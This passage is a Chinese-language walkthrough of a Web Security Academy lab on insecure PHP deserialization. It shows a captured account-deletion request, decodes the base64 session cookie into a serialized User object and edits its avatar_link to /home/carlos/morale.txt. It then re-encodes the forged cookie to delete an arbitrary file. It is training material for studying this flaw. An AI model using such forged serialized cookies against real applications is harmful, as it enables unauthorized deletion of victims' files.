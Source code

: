 点击删除账户来抓包拦截，可能这个删除操作会导致任意文件删除漏洞

```http
POST /my-account/delete HTTP/2
Host: 0a07008f0330f89080ef30e9009e00a3.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6ZmhndjdoNXd0aGdyNzh4b2lyZWV0cGNuY2EzaTBxNyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
Content-Length: 0
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a07008f0330f89080ef30e9009e00a3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a07008f0330f89080ef30e9009e00a3.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

还是 base64 解码下 Cookie 里的 session 字段的值

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zfhgv7h5wthgr78xoireetpcnca3i0q7";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

我们尝试任意文件删除，把 `avatar_link` 字段值改为 `/home/carlos/morale.txt` 试试

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zfhgv7h5wthgr78xoireetpcnca3i0q7";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

再 base 64 编码 替换 session 的值

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6ZmhndjdoNXd0aGdyNzh4b2lyZWV0cGNuY2EzaTBxNyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
```

重发包，则发现通关

## Lab4

### 前置
